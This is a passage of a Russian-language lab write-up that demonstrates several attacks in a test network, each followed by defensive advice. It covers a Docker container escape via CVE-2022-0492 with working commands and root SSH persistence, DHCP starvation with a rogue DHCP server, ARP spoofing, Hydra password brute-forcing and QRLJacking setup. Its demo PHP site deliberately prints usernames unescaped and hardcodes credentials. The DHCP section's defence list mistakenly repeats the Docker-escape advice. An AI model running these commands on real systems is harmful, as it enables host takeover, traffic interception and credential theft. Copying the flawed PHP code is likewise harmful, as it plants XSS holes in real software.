-	блокировать или строго контролировать outbound‑трафик на нестандартные HTTP‑/HTTPS‑адреса, запрещать прямые обращения к внутренним адресам злоумышленников, применять DLP/IPS с правилами на запрет отправки архивов из пользовательских каталогов;
-	настроить контроль USB‑носителей и механизмов автозапуска, чтобы исключить импорт исполняемых файлов на рабочие станции.
-	использовать централизованные решения EDR/XDR(расширенное обнаружение и реагирование) для отслеживания запуска PS2EXE‑сборок и «одиночных» процессоров curl.exe с параметром -F внутри пользовательских сессий;
-	ввести политику регулярного обновления программного обеспечения, в том числе PowerShell и системных библиотек, закрывая уязвимости, которые могут быть использованы для обхода Execution Policy;
-	проводить обучение персонала по кибергигиене и регулярно запускать симулированные тесты, рассылка «подозрительных» вложений и контроль реакции сотрудников.

## 4 🐳 Атака методом выхода за пределы контейнера (Docker Escape, CVE-2022-0492)

**Идея:** уязвимость в механизме cgroup release agent в ряде конфигураций ядра Linux (CVE-2022-0492) даёт возможность инициировать выполнение кода на хост-системе от имени `root`, т.е. выйти за пределы контейнера.

---

### 🔹 Лабораторный стенд

**Таблица — Конфигурация для демонстрации Docker Escape**

| Узел / Порт          | Роль          | Описание |
|----------------------|---------------|----------|
| Ubuntu (host)        | Хост Docker   | Ядро Linux, Docker Engine (учебный узел) |
| Контейнер `ubuntu`   | Песочница     | Среда, где выполняется код злоумышленника |
| `192.168.0.97`      | Сеть стенда   | Доступ к хосту и контейнеру в тестовом сегменте |

> Дистрибутив: Ubuntu (актуальный LTS); доступны официальные пакеты Docker Engine и зависимости.

---

### 🛠 Ход атаки (шаги с редактированием эксплуатационных фрагментов)

Шаг 1 — Развёртывание контейнера
Запустить контейнер на базе Ubuntu для воспроизведения атаки.
Убедиться, что в контейнере доступны базовые утилиты.

```bash
docker run --rm -it --privileged ubuntu bash
```
Шаг 2 — Подготовка cgroup-окружения внутри контейнера
Создать тестовую иерархию cgroup и смонтировать нужную подсистему в рабочий каталог. Создать вложенную группу 
```bash
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
```
Включить механизм уведомления об освобождении процессов.

```bash
echo 1 > /tmp/cgrp/x/notify_on_release
```
Шаг 3 — Определение пути к корню файловой системы хоста
Определить путь монтирования корневого раздела хоста для последующей записи артефактов.
```bash
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
```
Шаг 4 — Указание release agent
Сформировать абсолютный путь к скрипту-агенту на хосте (например, условный /cmd).
Записать этот путь в соответствующее поле release agent.
```bash
echo "$host_path/cmd" > /tmp/cgrp/release_agent
```

Шаг 5 — Подготовка скрипта-агента на хосте (артефакт доказательства)
Сформировать содержимое скрипта (вывод списка процессов и сетевых интерфейсов; запись в файл-доказательство на стороне хоста).
```bash
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
```
Выдать исполняемые права.
```bash
chmod a+x /cmd
```
Шаг 6 — Триггер события освобождения cgroup
Поместить текущий PID в тестовую группу и инициировать событие освобождения.
```
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```
Ожидать, что ядро хоста выполнит указанный агент.

Шаг 7 — Подтверждение выполнения кода на хосте
Просмотреть артефакт (файл с результатами), расположенный в файловой системе хоста.
Зафиксировать факт выполнения команд уровня хоста.
```bash
cat output
```

```bash
echo '#!/bin/sh' > /cmd
echo "ip a > $host_path/output" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
cat output
```
Шаг 8 — Демонстрация персистентности.
Сформировать ключи SSH в контейнере, безопасно извлечь публичный ключ.
Через механизм release agent записать ключ в authorized_keys на хосте.
Проверить подключение по SSH.

```bash
apt update && apt -y install openssh-client
ssh-keygen -t rsa
cat ~/.ssh/id_rsa.pub
echo "echo 'ssh-rsa AAAA...' > /root/.ssh/authorized_keys" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

echo '#!/bin/sh' > /cmd
echo "apt-get install openssh-server -y > $host_path/output" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

```bash
ssh root@192.168.0.97
The authenticity of host '192.168.0.97 (192.168.0.97)' can't be established.
ED25519 key fingerprint is SHA256:DCAZDfa2XNZ1UBzrLt5vmdZbR3j0d5O6YKelITx6cZM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.0.97' (ED25519) to the list of known hosts.
Welcome to Ubuntu Focal Fossa (development branch) (GNU/Linux 5.4.0-208-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

797 updates can be installed immediately.
508 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

root@justik-VirtualBox:~# 
root@justik-VirtualBox:~# ezzz
```

### 🎥 Видео-демонстрация атаки
[Смотреть видео в Google Drive](https://drive.google.com/file/d/1nYojzQ3XS3xyMPLKu59EU1Ui0Kbfyrfw/view?usp=sharing)

## 🛡 Защита
Защита от Docker Escape в инфраструктуре организации со стороны администратора:
-	запуск контейнеров без привилегий. Используются флаги --cap-drop или --security-opt no-new-privileges для снижения привилегий контейнеров;
-	использование SELinux/AppArmor. Применяются политики безопасности для ограничения действий процессов внутри контейнеров;
-	проверка и обновление образов. Всегда используются проверенные образы, минимизируйте набор установленных пакетов, удаляются утилиты, которые не нужны (например, bash) из production-образов;
-	изоляция сети контейнеров. Контейнеры из разных доверительных зон разделены сетью (например, посредством Docker Network).

## 5 🌐 Атака истощения пула DHCP-адресов с подменой сервера (DHCP Starvation & Rogue DHCP)

**DHCP Starvation** — массовая генерация DHCP DISCOVER/REQUEST с подставными MAC-адресами для быстрого исчерпания пула легитимного сервера.  
**Rogue DHCP** — запуск фальшивого DHCP-сервера после истощения пула: клиенты получают IP, шлюз и DNS, контролируемые злоумышленником, что создаёт условия для **MITM** и подмены DNS. Основано на отсутствии аутентификации в протоколе **DHCP (CWE-346)**.

---

### 🔹 Лабораторный стенд

**Таблица 4 — Конфигурация стенда для DHCP Starvation / Rogue DHCP**

| IP-адрес / Порт     | Роль                      | Описание |
|---------------------|---------------------------|----------|
| `10.10.10.5:2222`   | Веб-сервер                | Сайт организации: регистрация, авторизация |
| `10.10.10.5:1111`   | pgAdmin4                  | Веб-интерфейс администрирования PostgreSQL |
| `10.10.10.5:5432`   | PostgreSQL                | База данных сайта |
| `10.10.10.1`        | Маршрутизатор *(MikroTik)*| Легитимный DHCP (чистая сеть) |
| `192.168.5.1`       | Маршрутизатор *(MikroTik)*| Легитимный DHCP во втором сегменте |
| `10.10.10.3`        | Злоумышленник *(Kali)*    | Истощение пула DHCP + запуск Rogue DHCP, анализ трафика |
| `192.168.5.3`       | Злоумышленник *(Kali)*    | Тот же хост в подсети 192.168.5.0/24 |
| `DHCP-Client`       | Пользователь *(Win10)*    | Получает настройки либо от MikroTik, либо от Rogue DHCP |

> Веб-приложение (ниже) нужно как «жертва» для демонстрации перехвата учётных данных/сессий при MITM.

---

## 📦 Cерверная часть

```yaml
version: '3.8'

services:
  db:
    image: postgres:latest
    container_name: postgres_db
    environment:
      POSTGRES_USER: 163justIneffable
      POSTGRES_PASSWORD: P@ssw0rd
      POSTGRES_DB: anubis
    volumes:
      - db_data:/var/lib/postgresql/data
    ports:
      - "5432:5432"

  pgadmin:
    image: dpage/pgadmin4:latest
    container_name: pgadmin
    environment:
      PGADMIN_DEFAULT_EMAIL: *mail*
      PGADMIN_DEFAULT_PASSWORD: P@ssw0rd!
    ports:
      - "1111:80"
    depends_on:
      - db

  php:
    build:
      context: .
      dockerfile: Dockerfile
    volumes:
      - ./html:/var/www/html
    ports:
      - "2222:80"
    depends_on:
      - db

volumes:
  db_data:
```

### Dockerfile

```dockerfile
FROM php:apache

RUN apt-get update && \
    apt-get install -y libpq-dev && \
    docker-php-ext-install pgsql pdo_pgsql
```


---

## 🗂 Структура проекта

```
project-root/
├─ docker-compose.yml
├─ Dockerfile
└─ html/
   ├─ index.html
   ├─ register.php
   ├─ login.php
   └─ style.css
```

Создаём директорию под код:

```bash
mkdir -p html
```

### 🗂 Файлы проекта (веб)

**index.html**
```html
<!DOCTYPE html>
<html lang="ru">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Сайт с уязвимостью к SQL инъекции</title>
  <link rel="stylesheet" href="style.css">
</head>
<body>
  <div class="container">
    <h1>Добро пожаловать!</h1>
    <div class="form-options">
      <a href="login.php" class="button">Авторизация</a>
      <a href="register.php" class="button">Регистрация</a>
    </div>
  </div>
</body>
</html>
```

**login.php**
```php
<?php
// Подключение к базе данных через PDO
$conn = new PDO("pgsql:host=192.168.0.20;dbname=anubis", "163justIneffable", "P@ssw0rd");

// Проверка, что форма была отправлена методом POST
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    // Получение данных из формы
    $username = $_POST['username'];
    $password = $_POST['password'];

    // Использование подготовленного запроса
    $stmt = $conn->prepare("SELECT password FROM users WHERE username = :username");
    $stmt->bindParam(':username', $username);
    $stmt->execute();

    // Получение результата
    $user = $stmt->fetch(PDO::FETCH_ASSOC);

    if ($user && password_verify($password, $user['password'])) {
        // ⚠️ Демонстрационно: вывод без экранирования (потенциальный XSS при злонамеренном username)
        echo "Добро пожаловать, " . $username . "!";
    } else {
        echo "Неверное имя пользователя или пароль.";
    }
}
?>
<!DOCTYPE html>
<html lang="ru">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Авторизация</title>
  <link rel="stylesheet" href="style.css">
</head>
<body>
  <div class="container">
    <h1>Авторизация</h1>
    <form method="POST" action="login.php">
      <label for="username">Имя пользователя:</label>
      <input type="text" id="username" name="username" required><br><br>
      <label for="password">Пароль:</label>
      <input type="password" id="password" name="password" required><br><br>
      <button type="submit">Войти</button>
    </form>
    <a href="register.php" class="button">Зарегистрироваться</a>
    <a href="index.html">Назад</a>
  </div>
</body>
</html>
```

**register.php**
```php
<?php
// Подключение к базе данных
$conn = new PDO("pgsql:host=192.168.0.20;dbname=anubis", "163justIneffable", "P@ssw0rd");

// Обработка данных формы
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $username = $_POST['username'];
    $password = password_hash($_POST['password'], PASSWORD_DEFAULT); // Хеширование пароля

    // Запрос на добавление пользователя
    $stmt = $conn->prepare("INSERT INTO users (username, password) VALUES (:username, :password)");
    $stmt->bindParam(':username', $username);
    $stmt->bindParam(':password', $password);

    if ($stmt->execute()) {
        echo "Регистрация прошла успешно!";
    } else {
        echo "Ошибка при регистрации.";
    }
}
?>
<!DOCTYPE html>
<html lang="ru">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Регистрация</title>
  <link rel="stylesheet" href="style.css">
</head>
<body>
  <div class="container">
    <h1>Регистрация</h1>
    <form method="POST" action="register.php">
      <label for="username">Имя пользователя:</label>
      <input type="text" id="username" name="username" required><br><br>
      <label for="password">Пароль:</label>
      <input type="password" id="password" name="password" required><br><br>
      <button type="submit">Зарегистрироваться</button>
    </form>
    <a href="index.html">Назад</a>
  </div>
</body>
</html>
```

**style.css**
```css
body {
    font-family: Arial, sans-serif;
    margin: 0;
    padding: 0;
    background-color: #f4f4f9;
    display: flex;
    justify-content: center;
    align-items: center;
    height: 100vh;
    box-sizing: border-box;
}

.container {
    background-color: #fff;
    padding: 40px;
    border-radius: 10px;
    box-shadow: 0 6px 12px rgba(0, 0, 0, 0.1);
    width: 320px;
    text-align: center;
}

h1 {
    margin-bottom: 25px;
    font-size: 24px;
    color: #333;
}

form {
    display: flex;
    flex-direction: column;
    gap: 20px;
}

input {
    padding: 12px;
    border: 1px solid #ccc;
    border-radius: 5px;
    font-size: 16px;
    width: 100%;
    box-sizing: border-box;
}

button {
    padding: 12px;
    border: none;
    background-color: #28a745;
    color: white;
    border-radius: 5px;
    cursor: pointer;
    font-size: 16px;
}

button:hover {
    background-color: #218838;
}

a {
    color: #007bff;
    text-decoration: none;
    margin-top: 15px;
    display: inline-block;
}

a:hover {
    text-decoration: underline;
}

.form-options {
    display: flex;
    justify-content: center;
    gap: 20px;
    margin-top: 20px;
}

.form-options a {
    padding: 10px 20px;
    background-color: #007bff;
    color: white;
    border-radius: 5px;
    text-decoration: none;
}

.form-options a:hover {
    background-color: #0056b3;
}
```
**Топология**



## Подготовка фальшивого DHCP-сервера

На Kali Linux устанавливается утилита dnsmasq:

apt install dnsmasq

Создаётся конфигурационный файл rogue-dhcp.conf, где указываются:

- интерфейс eth0 (с опцией bind-interfaces),
- пул адресов 192.168.5.200 – 192.168.5.210 (lease 12h),
- шлюз и DNS злоумышленника 192.168.5.3,
- опция rapid-commit - для быстрого режима получения конфигурации

Запуск:

dnsmasq --conf-file=rogue-dhcp.conf -d



## Атака DHCP Starvation

Чтобы легитимный сервер MikroTik исчерпал пул адресов, используется утилита Yersinia:

apt install yersinia
yersinia -I

В режиме DHCP включается MAC Spoofing, что генерирует поток DISCOVER-запросов. В результате пул в диапазоне 192.168.5.10 – 192.168.5.100 полностью занят псевдозапросами, что подтверждается в интерфейсе MikroTik.

**окно консольного режима Yersinia в DHCP mode**



**панель выбора способа атаки**



**отправка непрерывного потока DISCOVER-пакетов**



**веб-интерфейса маршрутизатора с заполненным пулом легитимного DHCP-сервера**


## Встраивание в маршрутизацию

Чтобы не нарушить связность сети, злоумышленник запускает OSPF через пакет FRR:

apt install frr
vtysh

В конфигурации OSPF объявляются сети 192.168.5.0/24 и 10.10.10.0/29, что позволяет встроить «поддельный шлюз» в общую маршрутизируемую инфраструктуру.

**итоговый конфигурационный файл настроенной динамической конфигурацией**



## Активация Rogue DHCP

После заполнения пула, dnsmasq начинает раздачу подготовленных адресов.
Жертвы получают IP из «лжепула» 192.168.5.200–210 и параметры злоумышленника как шлюз и DNS.

Для корректного прохождения трафика включается форвардинг:
sysctl -w net.ipv4.ip_forward=1

**подключения жертвы к DHCP-cерверу**



**окно консоли с подключенным к фальшивому DHCP-серверу злоумышленника**



## Итоги атаки

Starvation создаёт условия для отказа легитимного DHCP.
Rogue DHCP раздаёт «вредоносные» параметры сети.
Всякий новый клиент оказывается «за NAT-ом» злоумышленника.

**изменение топологии сети**



Трафик проходит через атакующего → появляется возможность перехвата учётных данных, анализа пакетов и модификации ответов.



### 🎥 Видео-демонстрация атаки
[Смотреть видео в Google Drive](https://drive.google.com/file/d/1Z6RJkQogCQwwVOW0N9Ab9RJ765Wzbs2J/view?usp=sharing)

## 🛡 Защита
Защита от Docker Escape в инфраструктуре организации со стороны администратора:
-	запуск контейнеров без привилегий. Используются флаги --cap-drop или --security-opt no-new-privileges для снижения привилегий контейнеров;
-	использование SELinux/AppArmor. Применяются политики безопасности для ограничения действий процессов внутри контейнеров;
-	проверка и обновление образов. Всегда используются проверенные образы, минимизируйте набор установленных пакетов, удаляются утилиты, которые не нужны (например, bash) из production-образов;
-	изоляция сети контейнеров. Контейнеры из разных доверительных зон разделены сетью (например, посредством Docker Network).

## 6 🌐 Атака методом подмены физических адресов (ARP Spoofing)

**ARP Spoofing** – это атака канального уровня, основанная на подмене записей в кэшах ARP-таблиц сетевых узлов. Злоумышленник рассылкой фальшивых ARP-ответов убеждает жертву и/или шлюз в том, что IP-адрес цели сопоставляется с MAC-адресом атакующей машины. В результате весь трафик между узлами перенаправляется через машину злоумышленника, что позволяет реализовать пассивное перехватывание, активную модификацию или последующие атакующие действия (in-line-phishing, внедрение XSS-скриптов, SSL-strip).

---

### 🔹 Лабораторный стенд

**Таблица 5 – Лабораторный стенд для проведения атаки ARP Spoofing**

| IP-адрес / Порт       | Роль                      | Описание |
|-----------------------|---------------------------|----------|
| `192.168.10.253:2222` | Веб-сервер                | Сайт организации: регистрация, авторизация |
| `192.168.10.253:1111` | pgAdmin4                  | Веб-интерфейс администрирования PostgreSQL |
| `192.168.10.253:5432` | PostgreSQL                | База данных сайта |
| `192.168.10.3`        | Злоумышленник (Kali)      | Запускает инструменты arpspoof и анализирует трафик |
| `192.168.10.5`        | Пользователь (Windows 10) | Жертва; инициирует HTTP-соединения к сайту |

## 🗂 Структура проекта

```
project-root/
├─ docker-compose.yml
├─ Dockerfile
└─ html/
   ├─ index.html
   ├─ register.php
   ├─ login.php
   └─ style.css
```
Точно такой же как на DHCP Starvation

---

```На атакующей машине Kali предварительно активируется пересылка пакетов командой sudo sysctl -w net.ipv4.ip_forward = 1, чтобы злоумышленник мог выступать транзитным узлом между клиентом и веб-сервером, а затем запускает arpspoof в двух терминалах. Один процесс arpspoof указывает жертве, что MAC-адрес сервера совпадает с MAC-адресом злоумышленника командой arpspoof -i eth0 -t 192.168.10.5 192.168.10.253, а другой процесс говорит самому серверу, что MAC-адрес жертвы тоже принадлежит злоумышленнику командой arpspoof -i eth0 -t 192.168.10.253 192.168.10.5. В результате весь трафик от жертвы к веб-серверу проходит через злоумышленника. Получив положение «человека посередине», атакующий запускает Wireshark и фиксирует весь HTTP-трафик```



```Поскольку соединение к сайту идёт без TLS, формы авторизации передаются открытым текстом, и учётные данные моментально появляются в захваченных пакетах. При необходимости злоумышленник может в реальном времени подменять ответы сервера: например, внедрять JavaScript-фрагменты, выполнять SSL-strip или принудительно перенаправлять жертву на внешние ресурсы. Продолжительность атаки ограничена лишь устареванием ARP-кэша, периодическая повторная рассылка поддельных ARP-reply удерживает перехват беспрерывно.
Демонстрация на стенде показывает, что одна строка команды arpspoof достаточна для полного перенаправления потока данных между пользователем и критически важным внутренним сервисом. Отсутствие шифрования, проверок целостности ARP-записей и систем обнаружения несанкционированных ARP-объявлений приводит к прямому раскрытию паролей и возможности последующего активного вмешательства во все HTTP-сеансы.
```

## 🛡 Защита
Со стороны пользователя:
- Использовать шифрование трафика (HTTPS, VPN, SSH/SSL).
- Избегать подключения к подозрительным сетям.
- Реагировать на предупреждения ОС/браузера (смена MAC, сертификаты).
- Применять детекторы ARP-отравления (ArpON, XArp).
Со стороны администратора:
- Включать Dynamic ARP Inspection (DAI).
- Сегментировать сеть и ограничивать ARP в VLAN.
- Закреплять статические ARP-записи для критичных узлов.
- Использовать Port Security / sticky-MAC.
- Развёртывать IDS/IPS с сигнатурами ARP-спуфинга.
- Мониторить ARP-таблицы и логи.
- Обучать персонал процедурам реагирования.

# 7 🔐 Атака методом перебора учётных данных (Brute-Force, CWE-307)

**Brute-force** — это атака, основанная на систематическом переборе комбинаций логинов и паролей до нахождения корректной пары. При отсутствии ограничений на число попыток входа, многофакторной аутентификации и механизмов блокировки учётных записей злоумышленник может получить доступ к веб-приложению организации.

Для демонстрации используется утилита **Hydra**, которая автоматически отправляет HTTP POST-запросы на форму авторизации, анализируя ответы и определяя успешный вход по наличию признаков редиректа на `dashboard.php`.

---

## 🔹 Лабораторный стенд

**Таблица 6 — Конфигурация стенда для проведения атаки Brute-Force**

| IP-адрес / порт       | Роль                 | Описание                                          |
| --------------------- | -------------------- | ------------------------------------------------- |
| `192.168.10.253:2222` | Веб-сервер           | Форма регистрации, авторизации (PHP + PostgreSQL) |
| `192.168.10.253:1111` | pgAdmin4             | Веб-интерфейс администрирования БД                |
| `192.168.10.253:5432` | PostgreSQL           | База данных приложения                            |
| `192.168.10.3`        | Злоумышленник (Kali) | Запускает Hydra для перебора паролей              |
| `192.168.10.5`        | Пользователь (Win10) | Жертва — проходит корректную авторизацию          |

Стенд развёрнут в локальной сети на основе Docker-контейнеров (web, db, pgAdmin) и виртуальных машин. Веб-приложение состоит из страниц:

* `register.php` — регистрация;
* `login.php` — авторизация;
* `index.html` — стартовая страница;
* `style.css` — оформление сайта.

На машине злоумышленника Kali формируются словари:

* **users.txt** — список предполагаемых логинов;
* **passwords.txt** — словарь паролей (утечки + типовые комбинации).

---

## 🛠 Ход атаки

Hydra устанавливается командой:

```
sudo apt install hydra
```

Далее выполняется перебор:

```
hydra -L users.txt -P passwords.txt 192.168.10.253 -s 2222 \
  http-post-form "/login.php:username=^USER^&password=^PASS^:S=dashboard.php"
```

### 📌 Пояснение параметров:

| Параметр           | Значение                             |
| ------------------ | ------------------------------------ |
| `-L users.txt`     | файл списка логинов                  |
| `-P passwords.txt` | словарь паролей                      |
| `192.168.10.253`   | адрес веб-сервера                    |
| `-s 2222`          | нестандартный порт веб-приложения    |
| `http-post-form`   | модуль Hydra для перебора форм входа |
| `^USER^`, `^PASS^` | маркеры подстановки логина и пароля  |
| `S=dashboard.php`  | условие успешного входа (наличие ЛК) |

Hydra отправляет десятки параллельных POST-запросов, подставляя каждую пару логин–пароль. При нахождении корректной комбинации инструмент выводит результат зелёным цветом.

---

## 📸 Результат атаки

Пример результата на экране Kali:

```
[80][http-post-form] host: 192.168.10.253   login: alex   password: qwerty123
```

Это подтверждает успешный подбор пароля и получение доступа к учётной записи.

---

## 🛡 Защита

### **Со стороны пользователя:**

* использовать уникальные пароли длиной от 12 символов;
* применять менеджеры паролей;
* включать многофакторную аутентификацию;
* проверять URL-адрес и сертификат перед вводом пароля;
* завершать неиспользуемые активные сессии;
* не повторять рабочие пароли в личных сервисах.

### **Со стороны администратора:**

* ограничивать число попыток входа и блокировать IP/аккаунт;
* добавлять CAPTCHA после нескольких ошибок;
* использовать MFA для всех сотрудников;
* применять WAF/IDS/Fail2Ban для фильтрации перебора;
* использовать HTTPS и отключать слабые шифры;
* отслеживать всплески неуспешных входов;
* проверять пароли пользователей по утечкам;
* назначать минимальные привилегии пользователям БД.

---

# 8 📱 Атака методом подстановки QR-кода для перехвата сессии (QRLJacking, CWE-285)

**QRLJacking (Quick Response Code Login Jacking)** — это атака социальной инженерии и подмены QR‑кода, направленная на перехват механизма авторизации «вход по QR». Суть атаки заключается в том, что злоумышленник подменяет QR‑код, отображаемый на странице входа легитимного сервиса (Telegram Web, Discord, WhatsApp Web, Steam), и перенаправляет жертву на специально подготовленный «клонированный» QR‑код. После сканирования жертва передаёт атакующему сессионный токен и тем самым открывает ему доступ к своей учётной записи.

Уязвимость относится к **CWE‑285 — Improper Authorization**, так как сервис не проверяет источник QR‑кода и доверяет сессионному токену без дополнительной валидации.

---

## 🔹 Лабораторный стенд

**Таблица 7 — Конфигурация стенда для демонстрации атаки QRLJacking**

| IP-адрес         | Роль                      | Описание                                                |
| ---------------- | ------------------------- | ------------------------------------------------------- |
| `149.154.167.99` | Веб‑сервер                | Легитимный интерфейс авторизации (пример: Telegram Web) |
| `192.168.0.97`   | Злоумышленник (Ubuntu)    | Использует EvilQR для подмены QR-кода                   |
| `192.168.0.89`   | Пользователь (Windows 10) | Жертва, сканирует QR‑код и подтверждает валидный логин  |

---

## 🛠 Подготовка инструмента EvilQR

Для демонстрации используется фреймворк **EvilQR**, позволяющий копировать QR‑код с реального сайта и транслировать его через сервер злоумышленника.

### 1. Клонирование репозитория

```
git clone https://github.com/kgretzky/evilqr
```

Инструмент содержит две директории:

* **server/** — локальный веб‑сервер, который отображает поддельный QR‑код;
* **extension/** — браузерное расширение, копирующее QR‑код с реального сайта и отправляющее его на сервер злоумышленника.

---

## 🧩 Установка браузерного расширения




Расширение загружается вручную:

1. Открыть `chrome://extensions/`
2. Включить *режим разработчика*.
3. Нажать «Загрузить распакованное расширение».
